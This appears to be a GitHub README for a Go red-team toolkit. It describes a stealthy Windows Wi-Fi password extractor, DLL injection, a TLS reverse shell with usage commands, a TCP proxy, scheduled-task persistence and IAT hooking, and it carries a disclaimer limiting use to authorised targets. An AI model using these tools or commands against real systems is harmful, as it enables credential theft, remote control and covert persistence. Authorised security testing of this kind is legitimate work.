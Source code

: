 # Mal(icous)Go

## Disclaimer

Should only be used for systems that you have explicit permission to target, I take no responsibility for actions performed using any code from this repository.

Use at your own risk! 

## wifi pwds

Retrieve WLAN passwords from Windows. Uses native calls in Win32 API rather than executing `netsh wlan ...` as a command, this approach is more stealthy!

## inject

Injects a DLL into a remote process uses the classic on disk / `LoadLibrary` approach so should be used primarily for testing as it is not opsec safe.

Usage:

~~~
inject_x64.exe <dll_path> <pid>
~~~

## rshell

Simple reverse shell implementation client supports comms over TLS using the `tlsserver.go` server code.

### client

_Certificate is embedded into the compiled binary, update to a newly created cert._

~~~
client -tls -port 4444 <host>
~~~

### server

~~~
tlsserver -port 4444 <cert> <key>
~~~

## proxy

Simple TCP proxy

~~~
proxy <port> <host:port>
~~~

## persistence

A PoC to test adding a scheduled task into windows via COM/OLE rather than the noisey approach of using `schtasks.exe`. Please adjust to your needs!

## iat

Demonstrates Go being used to perform IAT hooking at runtime via an injected DLL. This example actually does not perform anything malicious but could the technique could definitely be used for this purpose!